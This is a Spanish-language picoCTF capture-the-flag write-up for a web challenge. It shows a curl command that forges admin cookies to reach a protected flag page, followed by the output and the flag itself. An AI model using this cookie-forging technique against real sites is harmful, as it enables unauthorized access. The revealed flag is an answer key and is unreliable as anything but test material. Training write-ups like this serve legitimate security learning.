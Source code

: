 ## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
## Solución
accedemos a la red luego con el inspector revisamos lo que hace el navegador y observamos las peticiones. debemos ser administrador para poder acceder y ver la bandera con este comando accedemos como admin en la pagina.
```
curl -s -X GET https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=admin; password=admin; admin=True" | grep pico
```

```
el-diego@Maquina-de-Guerra:~/Documentos/seguridad en redes$ curl -s -X GET https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: username=admin; password=admin; admin=True" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>

```

picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}

## Referencias
curl --> es una herramienta de línea de comandos que permite transferir datos hacia y desde servidores utilizando diversos protocolos como HTTP, HTTPS, FTP y más
https --> [¿Qué es el protocolo HTTPS y para qué sirve? Guía completa](https://www.siteground.es/blog/que-es-https-y-para-que-sirve-guia-completa/)
grep --> buscador por medio de filtrado de una palabra